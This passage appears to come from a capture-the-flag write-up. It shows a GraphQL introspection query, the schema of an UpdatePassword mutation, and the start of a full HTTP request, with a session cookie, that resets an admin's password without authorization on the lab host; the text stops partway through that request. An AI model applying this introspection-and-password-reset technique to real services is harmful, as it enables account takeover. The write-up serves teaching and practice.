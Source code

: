 ```http
{
  "query": "{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"
}
```

And here is the `UpdatePassword` Mutation

```json
{
  "name": "UpdatePassword",
  "args": [
    {
      "name": "username",
      "description": null,
      "type": {
        "name": null,
        "kind": "NON_NULL",
        "ofType": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    },
    {
      "name": "password",
      "description": null,
      "type": {
        "name": null,
        "kind": "NON_NULL",
        "ofType": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    }
  ]
}
```

We can see we need two parameters (username,password) which we can change every user's password without proper authorization.\
Here is the graphql query for updating admin's password (I built it based on login mutation which is similar to UpdatePassword)

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 191
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjB4MTciLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5Nzk3MDQ0fQ.54ogANqo_0hbJBlo_RtgWQDOoUQ3qeRz7ayBqW4KosU

{
  "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
  "variables": {
```
